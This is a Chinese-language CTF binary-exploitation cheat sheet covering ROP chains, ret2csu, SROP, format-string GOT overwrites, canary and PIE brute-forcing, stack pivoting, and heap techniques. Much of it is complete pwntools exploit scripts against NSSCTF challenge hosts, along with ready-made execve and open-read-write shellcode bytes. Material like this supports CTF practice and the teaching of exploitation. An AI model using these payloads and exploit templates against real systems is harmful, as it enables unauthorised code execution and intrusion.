

<!--more-->	

[toc]

~~~
tac fl* >&2

如果程序里有close(1)

getshell后输入exec 1>&0重新重定向标准输出
~~~

## call函数 

call指令会自动压入返回地址 故我们无需在栈中写入返回地址 故可以成功完成ROP

~~~ python
from pwn import *
context(arch='i386', os='linux', log_level='debug')
p = remote('node5.anna.nssctf.cn', 24156)
elf = ELF('./pwn')
system_addr = elf.symbols['system']
bin_sh_addr = 0x804C024
payload1 = b'a' * 0x1c + p32(0) + p32(0x080491E7) + p32(bin_sh_addr)
p.sendlineafter(b'Go Go Go!!!\n', payload1)
p.interactive()
~~~


## 随机数

### 利用 ctypes 库可以在 py 程序中调用 c 语言函数，模拟 srand rand time 功能

~~~ python
from pwn import *
from ctypes import *

context.arch='amd64'
p = remote('node5.anna.nssctf.cn', 28164)
libc = cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6')

p.sendlineafter(b'there?\n', b'0')
srand = libc.srand(libc.time(0))
for i in range(100):
	p.sendlineafter(b'it?\n', str((libc.rand()%100000) + 1))

p.recvuntil(b'reward.\n')
print(p.recv())
~~~


## sandbox

### 函数限制检测工具seccomp-tools

安装

~~~shell
$sudo apt install gcc ruby-dev
$sudo gem install seccomp-tools
~~~

使用

~~~ shell
$seccomp-tools dump 文件名
~~~

如果execve被禁用，那么system也无法使用。因为system(“/bin/sh”)是个库函数，背后的系统调用是：fork + execve + waitpid

## fd

在linux中，进程是通过文件描述符(file descriptors 简称fd)来访问文件的，文件描述符实际上是一个整数。在程序刚启动的时候，默认有三个文件描述符，分别是：0(代表标准输入)，1(代表标准输出)，2(代表标准错误)。再打开一个新的文件的话，它的文件描述符就是3。

## ELF

~~~ python
exit_got = elf.got['exit']
main = elf.sym['main']
~~~

## shellcode

### 手写

~~~ python
from pwn import *
# 汇编放在里面即可

shellcode1=asm('''
 mov rdi,rax;
 mov rsi,0xCAFE0010;
 syscall;
 nop;
 ''')
~~~

### shellcode

```
shellcode = "\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05"
payload=b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"
RRYh00AAX1A0hA004X1A4hA00AX1A8QX44Pj0X40PZPjAX4znoNDnRYZnCXAA
```

##### 不含\x00的execve（27 bytes）

```
shellcode=b'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'
```

##### 不含\x00的orw（52 bytes）

```
shellcode=b'\xb8flagPH\x89\xe71\xf61\xc0\x04\x02\x0f\x05\x89\xc7H\x89\xe6f\xb8\x01\x011\xd2f\x89\xc2f\x01\xc61\xc0\x0f\x051\xfff\xff\xc7f\xff\xc71\xc0\xfe\xc0\x0f\x05'
```

#### ae64

生成可见shellcode

###### install

~~~ shel
git clone https://github.com/veritas501/ae64.git --depth 1
cd ae64
sudo python3 setup.py install
~~~


~~~ python
from ae64 import AE64
from pwn import *
context.arch='amd64'

# get bytes format shellcode
shellcode = asm(shellcraft.sh())

# get alphanumeric shellcode
enc_shellcode = AE64().encode(shellcode)
print(enc_shellcode.decode('latin-1'))
~~~


### orw_shellcode_模板

#### 64位

~~~python
#pwntools
context.arch = elf.arch
shellcode = asm(shellcreaft.sh())
~~~

~~~python
#pwntools
shellcode = ''
shellcode += shellcraft.open('./flag')
shellcode += shellcraft.read('eax','esp',0x100)
shellcode += shellcraft.write(1,'esp',0x100)
payload1 = asm(shellcode)

~~~

~~~ python
shellcode = asm('''
    push 0x67616c66
    mov rdi,rsp
    xor esi,esi
    push 2
    pop rax
    syscall
    mov rdi,rax
    mov rsi,rsp
    mov edx,0x100
    xor eax,eax
    syscall
    mov edi,1
    mov rsi,rsp
    push 1
    pop rax
    syscall
    ''')
~~~

#### 32位

~~~python
context.arch = elf.arch
shellcode = asm(shellcreaft.sh())
~~~

~~~ python
shellcode = asm('''
                    push eax
                    pop ebx 
                    push edx
                    pop eax
                    dec eax
                    xor al,0x46
                    xor byte ptr[ebx+0x35],al #set int 0x80
                    xor byte ptr[ebx+0x36],al
                    push ecx 
                    pop eax
                    xor al, 0x41
                    xor al, 0x40
                    push ecx
                    pop eax
                    xor al, 0x41
                    xor al, 0x40
                    push ecx
                    pop eax
                    xor al, 0x41
                    xor al, 0x40
                    push ecx # set al=0xb
                    pop eax
                    xor al, 0x41
                    xor al, 0x40
                    push edx  # set ecx=0
                    pop ecx
                    push 0x68 # push /bin/sh
                    push 0x732f2f2f
                    push 0x6e69622f
                    push esp
                    pop ebx
                    ''') 
~~~

~~~python
#write by asm
shellcode = """
/*open(./flag)*/
push 0x1010101
xor dword ptr [esp], 0x1016660
push 0x6c662f2e
mov eax,0x5
mov ebx,esp
xor ecx,ecx
int 0x80
/*read(fd,buf,0x100)*/
mov ebx,eax
mov ecx,esp
mov edx,0x30
mov eax,0x3
int 0x80
/*write(1,buf,0x100)*/
mov ebx,0x1
mov eax,0x4
int 0x80
"""
~~~

~~~ python
#pwntools
shellcode = ''
shellcode += shellcraft.open('./flag')
shellcode += shellcraft.read('eax','esp',0x100)
shellcode += shellcraft.write(1,'esp',0x100)
payload1 = asm(shellcode)
~~~

## 系统调用

32位系统中，通过int $0x80指令触发系统调用。其中EAX寄存器用于传递系统调用号，参数按顺序赋值给EBX、ECX、EDX、ESI、EDI、EBP这6个寄存器。

64位系统则是使用syscall指令来触发系统调用，同样使用EAX寄存器传递系统调用号，RDI、RSI、RDX、RCX、R8、R9这6个寄存器则用来传递参数。

## 栈上的OFF-BY-NULL


该题目读入0x60，刚好和栈长度相同，只有read的话无法覆盖ebp、eip的任何字节。

read的返回值为读入的字节数，所以buf[read()]会把填充字节的下一字节变为0，所以读入全部字节时，可以修改ebp的最后一个字节

思路：填入大量的ret,让修改后的ebp恰好为填充的栈中地址(这个看运气，因为栈地址随机化问题，五次差不多能有一次可以中)，一直滑行到输入的后门，从而getshell。

~~~ python
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
p = remote('node4.anna.nssctf.cn', 28978)
payload1 = 0x20 * b'A' + 0x8 * b'b'
p.sendlineafter('tell me you name\n', payload1)
p.recvuntil(b'bbbbbbbb\x0a')
canary = u64(p.recv(7).rjust(8,b'\x00'))
success("canary-->" + hex(canary))
p.sendafter("key\n\n",p32(0x02c3))
shell = 0x4007C7 #程序自带的后门
ret = 0x400902
payload = p64(ret) * 10 + flat([shell, canary])
p.sendafter("to me\n",payload)
p.interactive()

~~~

## 整数溢出

|        类型        | 字节         | 范围                                                         |
| :----------------: | ------------ | ------------------------------------------------------------ |
|     short int      | 2byte(word)  | 0~32767(0~0x7fff) -32768~-1(0x8000~0xffff)                   |
| unsigned short int | 2byte(word)  | 0~65535(0~0xffff)                                            |
|        int         | 4byte(dword) | 0~2147483647(0~0x7fffffff) -2147483648~-1(0x80000000~0xffffffff) |
|    unsigned int    | 4byte(dword) | 0~4294967295(0~0xffffffff)                                   |
|      long int      | 8byte(qword) | 正: 0~0x7fffffffffffffff 负: 0x8000000000000000~0xffffffffffffffff |
| unsigned long int  | 8byte(qword) | 0~0xffffffffffffffff                                         |


## GOT表劫持

- 格式化字符串漏洞劫持got表
- 存在任意地址写
  - 
  - 如图，read写入seats数组，由于通过16*v0访问，如果v0为负值就访问了seats之前的地址，且v0值不受限制，因此可以任意写seats之前的地址。因此可以进行got表劫持。

例如修改got表中的exit为main的地址，就可以使程序一直执行

exit修改为one_gadget也可以getshell

修改got表后，程序调用函数会执行修改后的，如got表中puts改为system，程序调用puts就会执行system函数

## 格式化字符串漏洞

fmtstr_payload是pwntools里面的一个工具，用来简化对格式化[字符串](https://so.csdn.net/so/search?q=字符串&spm=1001.2101.3001.7020)漏洞的构造工作。

可以实现修改任意[内存](https://so.csdn.net/so/search?q=内存&spm=1001.2101.3001.7020)

修改函数的话，要修改got表，而不是实际的地址

- `%hhn` 对于整数类型，`printf `期待一个从 char 提升的 int 尺寸的整型参数
- `%hn` 对于整数类型，`printf` 期待一个从 short 提升的 int 尺寸的整型参数
- `%n` 写入整型

pwndbg里，fmtarg address



fmtstr_payload(offset, {printf_got: system_addr})(偏移，{原地址：目的地址})

```
也可以这么使用
Payload = fmtstr_payload(8, {puts_got:system, binsh:b'/bin/sh\x00'})
```

~~~
fmtstr_payload(offset, writes, numbwritten=0, write_size=‘byte’)
第一个参数表示格式化字符串的偏移；
第二个参数表示需要利用%n写入的数据，采用字典形式，我们要将printf的GOT数据改为system函数地址，就写成{printfGOT:
systemAddress}；本题是将0804a048处改为0x2223322
第三个参数表示已经输出的字符个数，这里没有，为0，采用默认值即可；
第四个参数表示写入方式，是按字节（byte）、按双字节（short）还是按四字节（int），对应着hhn、hn和n，默认值是byte，即按hhn写。
write_size总长度：int = long < short < byte
fmtstr_payload函数返回的就是payload

例如：payload4 = fmtstr_payload(6, {elf.got['printf']: elf.symbols['system']})
~~~

任意地址读

基本格式： addr%num$s

任意地址写

基本格式： addr%num$n


aaaaaaaa%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.

出现这种情况时，需要填充两个垃圾字符对齐，偏移为8， fmtstr_payload的函数要添加形参numbwritten=2

```python
offset = 8

payload = b'a' * 2 + fmtstr_payload(offset, {exit_got: main}, numbwritten=2)
```

fini_array劫持为main可继续执行

readelf pwn找到fini_array

_printf_chk的时候不能用%n$，只能%p.%p.%p.这样泄露

## pthread_create多线程竞争

如果程序利用了 pthread_create 创建进程，那么如果我们指令发送得快的话，可以实现比如说一个商品卖两次这种操作

## 栈迁移

### 迁移到栈上

需要泄露栈地址

~~~ python
from pwn import *
def slog(name, address): print("\033[40;31m[+]\033[40;35m" + name + "==>" + hex(address) + "\033[0m")
def get_addr():
    return u64(io.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
io = remote('node5.anna.nssctf.cn', 27773)
elf = ELF('./pivot')
# init_env('amd64', 'DEBUG')
libc = ELF('./libc.so.6')

leave = 0x401213
rdi = 0x401343
ret = 0x401214

# Leak Canary
Leak_Canary_Payload = b'A' * 0x28 + b'C'  # Overwritten Canary's \x00 to make printf print canary.

io.recvuntil(b'Name:\n')
io.send(Leak_Canary_Payload)

io.recvuntil(b'C')
Canary = u64(io.recv(7).rjust(8, b'\x00'))
slog('Canary', Canary)

io.recvuntil(b'\n')
io.send(b'A' * 0x108 + p64(Canary) + b'A' * 8 + p64(elf.sym['_start'])) # Re-execute _start function to restore stack. This is though read in vuln, not main.

# Leak Stack addr
Leak_Stack_Payload = b'A' * 0x58

io.recvuntil(b'Name:\n')
io.send(Leak_Stack_Payload)

stack_addr = get_addr()
slog('Stack addr', stack_addr)
slog('Stack addr - 0x268', stack_addr - 0x268)

# Leak libc_base
#           Placeholder                     Using GOT leak puts.plt
Payload = p64(0xdeadbeef) + p64(rdi) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(elf.sym['_start'])
Payload = Payload.ljust(0x108, b'\x00') + p64(Canary) + p64(stack_addr - 0x268) + p64(leave) # Pivot stack to stack_addr - 0x268. Which is the RSI.

io.sendafter(b'\n', Payload)

libc_base = get_addr() - libc.sym['puts']
slog('Base addr', libc_base)

# Final Payload
system = libc_base + libc.sym['system']
binsh = libc_base + next(libc.search(b'/bin/sh\x00'))
vuln = 0x4011B6

Payload = p64(0xdeadbeef) + p64(ret) + p64(rdi) + p64(binsh) + p64(system) + p64(0xdeadbeef)
Payload = Payload.ljust(0x108, b'\x00') + p64(Canary) + p64(stack_addr - 0x490) + p64(leave)

io.sendafter(b'Name:\n', b'Kaguya')
io.sendafter(b'\n', Payload)

io.interactive()
~~~


### 迁移到BSS段


ebp修改为要迁移的地址，eip用leave_ret代替

~~~ python
from pwn import *
context.log_level = 'debug'
context.binary = './vuln'
io = remote('node5.anna.nssctf.cn', 21159)
elf = ELF('./vuln', False)
libc = ELF('./libc-2.31.so', False)
leave_ret = 0x4012be
rdi = 0x401393
ret = 0x40101a

io.recvuntil(b'task.\n')
io.sendline(b'a'*0x108+p64(rdi)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(elf.sym['vuln']))

puts_addr = u64(io.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
libc_base = puts_addr - libc.sym['puts']
open_addr = libc_base + libc.sym['open']
read_addr = libc_base + libc.sym['read']
write_addr= libc_base + libc.sym['write']
rsi = libc_base + 0x2601f #这个是ROPgadget在libc文件中找出来的地址
rdx = libc_base + 0x142c92
io.sendline(b'a'*0x100+p64(elf.bss()+0x200)+p64(elf.sym['vuln']+0xF))
# open
payload  = b'/flag\x00\x00\x00'
payload += p64(rdi)+p64(elf.bss()+0x100)+p64(rsi)+p64(0)+p64(open_addr)
# read
payload += p64(rdi)+p64(3)+p64(rsi)+p64(0x404700)+p64(rdx)+p64(0x100)+p64(read_addr)
# write
#payload += p64(rdi)+p64(1)+p64(rsi)+p64(0x404700)+p64(rdx)+p64(0x100)+p64(write_addr)
# puts没有puts可以用write，但毕竟puts更少参数更简单一些
payload += p64(rdi)+p64(0x404700)+p64(puts_addr)
# 补长
payload  = payload.ljust(0x100, b'a')
# rbp leave ret 因为vuln ret时有leave ret了
payload += p64(0x404160)+p64(leave_ret)
io.sendline(payload)
io.interactive()
~~~


## canary

### 泄露CANARY


一般会有一个puts或者printf("%s")

~~~ python
payload = b'a' * 0x20 + b'b'*0x8 #和栈长度有关，假如栈长度为0x30，则最后0x8为canary,需要填充0x28个字节
p.sendline(payload)
p.recvuntil("bbbbbbbb\x0a")
canary = u64(p.recv(7).rjust(8,b'\x00'))
success("canary-->" + hex(canary))
~~~


### canary爆破

- 对于Canary，虽然每次进程重启后Canary不同，但是同一个进程中的不同线程的Cannary是相同的，并且通过fork函数创建的子进程中的canary也是相同的，因为fork函数会直接拷贝父进程的内存。

- 最低位为0x00，之后逐次爆破，如果canary爆破不成功，则程序崩溃；爆破成功则程序进行下面的逻辑。由此可判断爆破是否成功。
- 我们可以利用这样的特点，彻底逐个字节将Canary爆破出来。

~~~ python
canary = b'\x00'
for k in range(7):  # 字节数
    for i in range(256):
        p.send(b'a' * (0x70 - 0x8) + canary + p8(i))
        a = p.recvuntil("welcome\n")
        if b"fun" in a:  # 成功的逻辑
            canary += p8(i)
            print(b"canary: " + canary)
            break


~~~

### 格式化字符串泄露canary

基本格式：%num$p

num的值可以枚举，也可以计算:假设栈顶为0x30，canary为0x8，相距0x30-x08=40， 40/8=5，加上6个寄存器得11，则num的值为11

## pie绕过

**pie保护开启后最后12位不会发生变化，对应3位16进制数字**

开启pie之后，若可以泄露程序基址（pro_base)，则got、elf都需要加上pro_base
~~~ python
io.recvuntil(b'0x')
pro_base = int(io.recv(12), 16) - 0x11a9
vuln = pro_base + 0x11BB
bin_sh = pro_base + 0x4010
ret = pro_base + 0x101a
rdi = pro_base + 0x11b1
slog('pro_base', pro_base)
io.recvuntil(b'Go Go Go!!!')
payload = b'a' * 0x48 + p64(rdi) + p64(pro_base + elf.got['puts']) + p64(pro_base + elf.plt['puts']) + p64(vuln)
~~~

### pie爆破——Partial overwrite

顾名思义，就是写入部分的数据，来控制程序的执行流程，例如：程序都是使用偏移来定位指令，如果我们获取到了`backdoor`后门函数的偏移，将返回地址的后三位覆盖为`backdoor`的地址，从而执行`backdoor`函数。
具体原理：因为程序运行起来的时候开启了pie和aslr，无法获取程序的准确地址，但是虽然前面的地址是不知道的，但是一个内存分页的大小为`0x1000`，这基本上确定了，偏移地址只能在`0~999`之间，一般情况下，返回地址都会在一个内存分页上，所以我们**覆盖返回地址的后三位**，从而执行`backdoor`函数
但是我们在覆盖的时候，写入三个十六进制的情况是很少的，一个字节为`8bit`，一个字节由四位十六进制组成，三位十六进制是`12bit`，因为我们平常写入都是一次性写入一个字节(8bit)，如果写入两个字节，**就会有一个十六进制位是不确定的，这时就需要运气才能成功执行`backdoor`函数，但是我们可以使用爆破的方式，多次运行程序，总有一个会成功**

~~~ python
get_flag = 0x0231
while (1):
    for i in range(16):
        payload = b'A' * 0x68 + canary + b'A' * 8 + p16(get_flag)
        p.send(payload)
        # pause()
        a = p.recvuntil("welcome\n", timeout=1)
        print(a)
        if b"welcome" in a: #失败
            get_flag += 0x1000
            continue
        if b"NSSCTF" in a: #成功
            print(a)
            break
p.interactive()
~~~

如果程序只能运行一次，也可以通过重复链接的方式

~~~ python
from pwn import *

context(os='linux', arch='amd64', log_level='debug')
while(True):
    try:
        p = remote('node5.anna.nssctf.cn', 24951)
        get_flag = 0x11e5
        payload = (0x100 + 0x8) * b'a' + p16(get_flag)
        p.sendafter(b'easy challenge', payload)
        p.interactive()
    except:
        p.close()
        continue
~~~


### 泄露地址绕过

**pie只会影响程序加载的基地址，如果程序中某个函数，泄露了程序在内存中的地址，我们可以将`泄露的地址 - 泄露地址偏移`得到基地址，从而可以使用`基地址 + 偏移`地址定位到程序中的任意位置，这个时候我们的`gadget`就可以使用了，就可以使用常规的`ROPchain`获取shell**


### vsyscall Ubuntu 16.04版本

> 系统把几个常用的无参内核调用从内核中映射到用户空间中，这就是vsyscall.

目前是只能在**Ubuntu 16.04版本**上进行使用，需要特别注意一下。

注意：
**当我们直接调用vsyscall中的syscall时，会提示段错误，这是因为vsyscall执行时会进行检查，如果不是从函数开头执行的话就会出错**
**所以，我们可以直接利用的地址是0xffffffffff600000、0xffffffffff600400、 0xffffffffff600800**,

**由于这三个系统调用都是无参数传参，且地址固定，我们可以用来绕过PIE，原因是他们的影响性小且带有ret指令。就可以把这三个系统调用看作三个地址不同的ret指令。我们可以用他们不停的滑到下方栈地址**。我们可以简单地将其看作一个retn指令——也就是说，我们可以通过覆盖返回地址为上面分分析到的三个地址，从而改变栈的布局。

　　往往这个技术的思路是——在栈中寻找之前遗留的信息，通过溢出技术修改，并通过vsyscall将返回地址滑动到该信息处，从而完成攻击。

例如：

该程序中后门地址后3位为A3A


动态调试看输入完后的stack地址


输入的buf地址存在00007FFFFFFFDCF0,在栈里面，可以看到第六行为后门地址，相差五行，将这五行用vsyscall填充，相当于ret到了后门

## stack smash

glibc-2.31 之后不可用

canary 在发现栈溢出报错时，会输出程序的程序名

覆盖argv[0]地址为flag存储的实际地址

## Ret2

- ret2text——程序中有system("/bin/sh")代码段，控制流执行
- ret2shellcode——程序中不存在system("/bin/sh/")的代码段，自己恶意填入代码并在可执行段执行 
- ret2syscall——程序中不存在system("/bin/sh/")的代码段，不存在合适的可执行段进行恶意代码的执行，但是程序是**静态链接，且程序中中存在代码片段，拼接可组成系统调用** 

### Ret2syscall

~~~ c
execve("/bin/sh",NULL,NULL)
~~~

修改寄存器的值，并触发系统调用。

- 系统调用号，即 eax 应该为 0xb，因为是execve所以是0xb
- 第一个参数，即 ebx 应该指向 /bin/sh 的地址，其实执行 sh 的地址也可以。
- 第二个参数，即 ecx 应该为 0
- 第三个参数，即 edx 应该为 0

1. checksec看一下程序属性，然后file一下看一下是不是静态链接
2. 寻找可用gadget

~~~shell
ROPgadget --binary rop --only 'pop|ret' | grep 'eax'
ROPgadget --binary rop  --only 'pop|ret' | grep 'ebx'
ROPgadget --binary rop  --only 'pop|ret' | grep 'ecx'
ROPgadget --binary rop  --only 'pop|ret' | grep 'edx' 
ROPgadget --binary rop  --string '/bin/sh'
ROPgadget --binary rop --string 'sh'
ROPgadget --binary rop --string '/sh'
ROPgadget --binary rop  --only 'int' 

有些题目可以一把梭
ROPgadget --binary rop --ropchain
ropper --file inndy_rop --chain execveropper --file inndy_rop --chain execve
~~~

payload示例

~~~ python
from pwn import *
 
gadget_eax_ret_addr=0x080bb196
gadget_edx_ecx_ebx_ret=0x0806eb90
bin_sh_addr=0x080be408
int_0x80_addr=0x08049421
 
context(os='linux',arch='i386',log_level='debug')
sh=process('./rop')
payload=b'a'*112+p32(gadget_eax_ret_addr)+p32(0xb)+ \
        p32(gadget_edx_ecx_ebx_ret)+p32(0)+p32(0)+p32(bin_sh_addr)+ \
        p32(int_0x80_addr)
sh.sendline(payload)
sh.interactive()
~~~

x64

64位与32位不同，需要注意以下几点：

1.execve系统调用号不同：64位系统调用号为0x3b 2.存放系统调用号的寄存器不同：64位系统调用号存放在rax 3.存储参数的寄存器不同：64位存储参数的寄存器为：rdi，rsi，rdx，r10，r8，r9 4.中断不同：32位为int 80，64位为syscal


### Ret2csu

~~~
在64 位程序中，函数的前6个参数是通过寄存器传递的 但是大多数时候 我们很难找到每一个寄存器对应的gadgets 这时候 我们可以利用 x64下的 __libc_csu_init 中的 gadgets 这个函数是用来对 libc 进行初始化操作的 而一般的程序都会调用libc 函数 所以这个函数一定会存在
可以控制rbx,rbp,r12,r13,r14,r15以及rdx,rsi,edi的值，并且还可以call我们指定的地址。然后劫持程序执行流的时候，劫持到这个__libc_csu_init函数去执行（这个函数是用来初始化libc的，因此只要是动态链接的程序就都会有这个函数（至少我还没有遇见过特殊情况）），从而达到控制参数的目的。
~~~

gadget1

~~~ asm
add rsp, 8
pop rbx //一般从这条指令开始
pop rbp //通常零rbx值为0， rbp值为1，目的是在gadget2中call的地址为r12而不用管rbx。同时gadget2中rbx+1后与rbp相等时，不会跳转到gadget2中的地址0x400580,所以rbx为0，rbp为1
pop r12
pop r13
pop r14
pop r15
//以上四个寄存器的值根据gadget2中mov语句不同而与其他寄存器有不同的关系
retn
~~~

gadget2

~~~ asm
mov rdx, r13
mov rsi, r14
mov edi, r15d
//想用ret2csu去把rdi里存放成一个地址是不可行的
call qword ptr [r12 + rbx * 8]
add rbx, 1
cmp rbx, rbp
jnz short loc_400580
~~~

先执行gadget1，再执行gadget2，然后顺序往下再执行gadget1。

如果不需要再一次控制参数的话，那我们此时把栈中的数据填充56（7*8）个垃圾数据即可。

如果我们还需要继续控制参数的话，那就此时不填充垃圾数据，继续去控制参数，总之不管干啥呢，这里都要凑齐56字节的数据，以便我们执行最后的ret，最后ret去执行我们想要执行的函数即可。

~~~ python
from pwn import *
file_path='./level5'
context(binary=file_path,os='linux',terminal = ['tmux', 'sp', '-h'])
p = process(file_path)
elf = ELF(file_path)
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
main_addr = 0x400564
write_got = elf.got['write']
read_got = elf.got['read']
gadget1 = 0x400606
gadget2 = 0x4005F0
bss_addr = 0x601028

#payload = b'A'*0x80+b'B'*8+p64(gadget1)+b'C'*8+b'D'*8+b'E'*8+b'F'*8+b'G'*8+b'H'*8#show how to set register
#######################leak libc###############################
payload1 = b'A'*0x80+b'B'*8      #padding
payload1 += p64(gadget1)         #ret
payload1 += p64(0)               #rsp
payload1 += p64(0)               #rbx
payload1 += p64(1)               #rbp
payload1 += p64(write_got)       #r12
payload1 += p64(1)               #r13 edi
payload1 += p64(write_got)       #r14 rsi
payload1 += p64(8)               #r15 rdx
payload1 += p64(gadget2)
payload1 += b'\x00'*0x38         #padding 0x38 = 56
payload1 += p64(main_addr)            #等待第二次触发漏洞
#gdb.attach(p,'b *0x400562')	
p.sendafter('Hello, World\n',payload1)

write_addr = u64(p.recv(8))
libc_base = write_addr - libc.sym['write']
system_addr = libc_base + libc.sym['system']
binsh = libc_base + next(libc.search(b'/bin/sh'))

success("libc_base:{}".format(hex(libc_base)))
success("system_addr:{}".format(hex(system_addr)))
success("binsh:{}".format(hex(binsh)))

#######################read(0,bss,8) system_addr###############################
payload2 = b'A'*0x80+b'B'*8      #padding
payload2 += p64(gadget1)         #ret
payload2 += p64(0)               #rsp
payload2 += p64(0)               #rbx
payload2 += p64(1)               #rbp
payload2 += p64(read_got)        #r12 ret
payload2 += p64(0)               #r13 edi
payload2 += p64(bss_addr)        #r14 rsi
payload2 += p64(16)              #r15 rdx
payload2 += p64(gadget2)
payload2 += b'\x00'*0x38         #padding
payload2 += p64(main_addr)            #等待第二次触发漏洞
p.sendafter('Hello, World\n',payload2)
sleep(1)
p.send(p64(system_addr)+b'/bin/sh\x00') #有人问 为什么要写入/bin/sh 而不是利用libc中的/bin/sh 那是因为我们再给rdi赋值只能.....
sleep(1)

#######################system('/bin/sh') system_addr###############################
payload3 = b'A'*0x80+b'B'*8      #padding
payload3 += p64(gadget1)         #ret
payload3 += p64(0)               #rsp
payload3 += p64(0)               #rbx
payload3 += p64(1)               #rbp
payload3 += p64(bss_addr)        #r12 ret
payload3 += p64(bss_addr+8)      #r13 edi无法完整赋值
payload3 += p64(0)               #r14 rsi
payload3 += p64(0)               #r15 rdx
payload3 += p64(gadget2)
payload3 += b'\x00'*0x38         #padding
payload3 += p64(main_addr)            #等待第二次触发漏洞
p.sendafter('Hello, World\n',payload3)

p.interactive()
~~~

### Ret2reg

#### 目的：

绕过ASLR

#### 原理

  查看栈溢出返回时哪个寄存器指向缓冲区空间。
  查找对应的call 寄存器或者jmp 寄存器指令，将EIP设置为该指令地址。
  将寄存器所指向的空间上注入shellcode（确保该空间是可以执行的，通常是栈上的）

#### 利用思路

  分析和调试汇编，查看溢出函数返回时哪个寄存器指向缓冲区地址
  向寄存器指向的缓冲区中注入shellcode
  查找call 该寄存器或者jmp 该寄存器指令，并将该指令地址覆盖ret

#### 防御方法

在函数ret之前，将所有赋过值的寄存器全部复位，清0，以避免此类漏洞

#### example

~~~ python
from pwn import *
context(log_level="debug", os="linux", arch="amd64")
p = remote('node6.anna.nssctf.cn',20379)
# p = process("./attachment")
elf = ELF("./attachment")
shellcode = asm(shellcraft.sh())
payload = shellcode.ljust(0x100, b'\x00') + p64(0) + p64(0x401014) # 0x401014 : call rax
p.sendlineafter(b'your name?', payload)
p.interactive()

~~~

## SROP

**攻击成功的前提**是：

1. 可以通过**栈溢出控制栈上的内容**（**srop题目的特征是让在栈上溢出很多字节**）。
2. 需要知道**栈地址，从而知道如传入的“/bin/sh”字符串的地址**。
3. 需要知道**syscall的地址**。
4. 需要知道**sigreturn的内存地址**。

伪造sigFrame如下：

1. 使其中rax=59（execve的系统调用号，rax寄存器既用来保存返回值，也用来保存系统调用号，这个我们后面细说）。
2. 使其中rdi设置成“/bin/sh”的地址（这个地址可以是攻击者传到栈上的地址，一般是首先泄露栈地址，然后手动加一个offset找到binsh）。
3. 使其中rip设置成syscall的内存地址。
4. 最后将sigFrame栈顶的rt_sigreturn手动设置成sigreturn系统调用代码地址。

~~~python
sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_execve
sigframe.rdi = stack_addr - 0x118
sigframe.rsi = 0
sigframe.rdx = 0
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret
~~~

将伪造的sigFrame中指令寄存器ip的地址由原来的syscall的地址控制成“syscall；ret” gadget的地址，构造SROP链


## HEAP

2.34之前可以打free_hook和malloc_hook

### libc版本

~~~ shell
strings ./libc.so.6 |grep 'GNU’
~~~

#### libc-2.23

在2.23版本下，可以使用的堆利用技巧。

##### 堆利用

- house of spirit：构造一个fake_chunk并进行free，加入到fastbin中，下一次就可以分配我们的fake_chunk。
- house_of_force：溢出到top_chunk，修改其size，令超大的分配可以从top_chunk中返回而不通过mmap痛过malloc（&top-x）大小的分配返回任意地址。
- house_of_lore：利用smallbin和largebin在头部插入尾部取出的特性，伪造bin中某个chunk的bk指针为fake_chunk并且fake_chunk的fd字段需要为该bin的地址。然后下一次分配就是我们的chunk。
- house_of_orange：利用堆溢出和IO_list_all来获取shell。利用unsorted bin攻击修改io_list_all，然后将small bin中的0x61大小堆块看成FILE结构，修改相应的数据。不过unsorted bin和把0x61大小的chunk放入small bin是同时进行的。
- house_of_einherijar：修改相邻chunk的size和pre_inuse位，使堆块合并进而出现堆块重叠。
- house_of_roman：利用fast_bin和IO_FILE来达到泄漏libc的目的。
- house_of_rabbit：利用malloc_consolidate的时候没有检查该bin是否符合该idx。如果修改size为一个更大的值将可以发生堆块重叠。
- Unlink：伪造堆块，使堆块释放时，执行unlink，从而修改一些地址，但是为了绕过unlink的保护，修改的地址有限制。
- 堆重叠：修改size达到可以修改已经释放的chunk的目的进而可以进行更多的攻击
- unsorted bin attack：利用unsortedbin的双向链表结构，篡改bk的值使任意地址储存一个较大的值。
